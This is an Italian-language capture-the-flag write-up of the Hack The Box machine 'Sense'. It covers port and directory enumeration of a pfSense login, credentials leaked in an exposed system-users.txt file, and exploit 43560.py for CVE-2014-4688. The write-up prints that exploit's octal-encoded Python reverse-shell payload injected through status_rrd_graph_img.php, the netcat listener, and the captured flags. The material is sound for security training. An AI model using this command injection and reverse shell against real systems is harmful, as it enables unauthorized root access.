




**Target: 10.10.10.60**

# INFORMATION GAHTERING

Prima di tutto faccio un rapido scan con [Nmap](../../Note/Tool/Nmap.md) per identificare quali porte sono aperte e quali servizi girano 

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# nmap -sC -sV -O -min-rate=5000 10.10.10.60
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-27 15:57 EDT
Nmap scan report for 10.10.10.60
Host is up (0.052s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (90%), OpenBSD 4.X (85%)
OS CPE: cpe:/o:openbsd:openbsd:4.0
Aggressive OS guesses: Comau C4G robot control unit (90%), OpenBSD 4.0 (85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.90 seconds
```

Un ulteriore scan su tutte le porte non ci da nessuna nuova informazione,

Quindi prima di procedere con l'enumerazione facciamo il punto della situazione

- Port 80: running lighttpd 1.4.35 over HTTP
- Port 443: running lighttpd 1.4.35 over HTTPS

abbiamo un redirect delle porta 80 alla porta 443 quindi abbiamo solo una superficie d'attacco

# ENUMERATION

Iniziamo a enumerare la porta 443. Visita l'applicazione utilizzando il browser.



Otteniamo una pagina di accesso pfSense. pfSense è un firewall e router gratuito e open source. Poiché si tratta di un software standard, la prima cosa che ho fatto è stata cercare su Google "credenziali predefinite pfsense" 

default credentials: **Username: admin, Password: pfsense**.

Ho provato admin/pfsense ma non ha funzionato. Ho anche provato credenziali comuni come admin/admin, pfsense/pfsense, admin/password, ecc.
ma non hanno funzionato 

Andiamo avanti con l'enumerazione 

proviamo ad enumerare le directory con [Gobuster](../../Note/Tool/Gobuster.md)
- -k : ignorare gli errori di certificato SSL durante la scansione di un sito web tramite HTTPS.
```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# gobuster dir -u https://10.10.10.60 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.60
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/27 16:08:07 Starting gobuster in directory enumeration mode
===============================================================
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/~                    (Status: 403) [Size: 345]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/~sys~                (Status: 403) [Size: 345]
Progress: 20660 / 26585 (77.71%)[ERROR] 2023/06/27 16:10:59 [!] parse "https://10.10.10.60/error\x1f_log": net/url: invalid control character in URL
Progress: 26549 / 26585 (99.86%)
===============================================================
2023/06/27 16:11:42 Finished
===============================================================

```

Abbiamo diverse directory esposte ma non ho trovato nulla di utile.
>Nota visitando /installer abbiamo la modifica del'url in 
>`https://10.10.10.60/installer/installer.php`
>ci puo suggerire la presenza di file .php che possiamo cercare dopo sempre con gobuster


Quindi, eseguiamo searchsploit per vedere se il software è associato a qualche vulnerabilità.

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# searchsploit  pfsense
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scriptin| hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting | hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting  | hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting | hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)| unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities     | php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution | php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal| php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities| php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal | php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution| php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery | php/webapps/41501.txt
Pfsense 2.3.4 / 2.4.4-p3 - Remote Code Injection| php/webapps/47413.py
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)  | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting      | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting| multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting        | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                | freebsd/webapps/48300.txt
pfSense 2.4.4-p3 - Cross-Site Request Forgery | php/webapps/48714.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection|php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities| php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery| php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting | freebsd/webapps/24439.txt
pfsenseCE v2.6.0 - Anti-brute force protection bypass | hardware/remote/51352.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Non salta fuori davvero niente. La maggior parte degli exploit richiede l'autenticazione. A questo punto, avrei rinunciato a questa porta e avrei iniziato a enumerare un'altra porta. Tuttavia, questa è l'unica porta che possiamo enumerare per questa macchina. Quindi dobbiamo trovare qualcosa con gobuster.
Modifichiamo il nostro comando gobuster per includere le estensioni.

```bash
===============================================================  
Gobuster v3.0.1  
by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@_FireFart_](http://twitter.com/_FireFart_))  
===============================================================  
[+] Url: [https://10.10.10.60](https://10.10.10.60/)  
[+] Threads: 10  
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
[+] Status codes: 200,204,301,302,307,401,403  
[+] User Agent: gobuster/3.0.1  
[+] Extensions: php,txt,conf  
[+] Timeout: 10s  
===============================================================  
2019/12/29 09:28:51 Starting gobuster  
===============================================================  
/index.php (Status: 200)  
/help.php (Status: 200)  
/themes (Status: 301)  
/stats.php (Status: 200)  
/css (Status: 301)  
/edit.php (Status: 200)  
/includes (Status: 301)  
/license.php (Status: 200)  
/system.php (Status: 200)  
/status.php (Status: 200)  
/javascript (Status: 301)  
/changelog.txt (Status: 200)  
/classes (Status: 301)  
/exec.php (Status: 200)  
/widgets (Status: 301)  
/graph.php (Status: 200)  
/tree (Status: 301)  
/wizard.php (Status: 200)  
/shortcuts (Status: 301)  
/pkg.php (Status: 200)  
/installer (Status: 301)  
/wizards (Status: 301)  
/xmlrpc.php (Status: 200)  
/reboot.php (Status: 200)  
/interfaces.php (Status: 200)  
/csrf (Status: 301)  
/system-users.txt (Status: 200)  
/filebrowser (Status: 301)  
/%7Echeckout%7E (Status: 403)
```

Due file che catturano immediatamente la mia attenzione sono changelog.txt e system-users.txt.



Il file change-log.txt ci dice che stanno sicuramente usando una versione vulnerabile di pfSense. Tuttavia, hanno corretto due delle tre vulnerabilità associate a questo software. Dobbiamo tenerlo a mente quando sfruttiamo l'applicazione.



Abbiamo delle credenziali !
Il nome utente è rohit e la password è la password predefinita pfsense. Accediamo all'applicazione.



# GAINING AN INITIAL FOOTHOLD

Vediamo le versione di pfSenes che è la 2.1.3, se torniamo hai nostri risultati di searchsploit ci spicca un risultato 

```bash
pfSense < 2.1.4 - 'status_rrd_graph_img.php' CommandInjection|php/webapps/43560.py
```

lo scarichiamo  e gli diamo un occhio :

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# searchsploit  -m 43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
    Codes: CVE-2014-4688
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/sense/43560.py

┌──(root㉿kali)-[/home/kali/htb/sense]
└─#cat 43560.py

.....
# command to be converted into octal  
command = """  
python -c 'import socket,subprocess,os;  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);  
s.connect(("%s",%s));  
os.dup2(s.fileno(),0);  
os.dup2(s.fileno(),1);  
os.dup2(s.fileno(),2);  
p=subprocess.call(["/bin/sh","-i"]);'  
""" % (lhost, lport)payload = ""  
  
# encode payload in octal  
for char in command:  
	payload += ("\\" + oct(ord(char)).lstrip("0o"))  
  
login_url = 'https://' + rhost + '/index.php'  
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"  
......

```

Sembra che lo script status_rrd_graph_img.php sia vulnerabile a un'iniezione di comando. Per sfruttarlo, lo script passa una semplice shell python inversa (con i parametri di configurazione che passiamo come argomenti) come comando. 
Pertanto, alziamo un nc per ricevere la shell.

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

ed eseguiamo l'exploit 

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.43 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

```

Otteniamo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.60] 13524
sh: can't access tty; job control turned off
#
# cat user.txt
cat user.txt
8721327cc232073b40d27d9c17e7348b
# cat root.txt
cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
```

Per questa macchina, non dobbiamo aumentare i privilegi poiché pfSense è in esecuzione come root e quindi quando abbiamo sfruttato la vulnerabilità dell'iniezione di comandi abbiamo ottenuto una shell con privilegi di root.


# LESSON LEARNED

Per ottenere un punto d'appoggio iniziale sulla macchina abbiamo sfruttato tre vulnerabilità.

1. Rivelazione di un 'informazione. I file changelog.txt e system-users.txt erano pubblicamente disponibili a chiunque enumeri le directory sul server web. Quei file ci hanno fornito informazioni sulle vulnerabilità nel server Web e informazioni sulle credenziali per uno degli account. Gli amministratori non dovrebbero mai archiviare pubblicamente informazioni riservate.
2. Utilizzo delle credenziali predefinite. L'utente ha utilizzato la password predefinita fornita con l'applicazione. Poiché le credenziali predefinite sono pubblicamente disponibili e possono essere facilmente ottenute, l'utente dovrebbe invece utilizzare una password sufficientemente lunga e difficile da decifrare.
3. Iniezione di comandi nel software pfSense che ci ha permesso di inviare una shell al nostro server di attacco. Ciò avrebbe potuto essere evitato se l'utente avesse patchato il sistema e installato la versione più recente di pfSense.

Come accennato in precedenza, non abbiamo dovuto intensificare i privilegi per questa macchina poiché pfSense funziona con privilegi di root e quindi abbiamo una shell con privilegi di root.
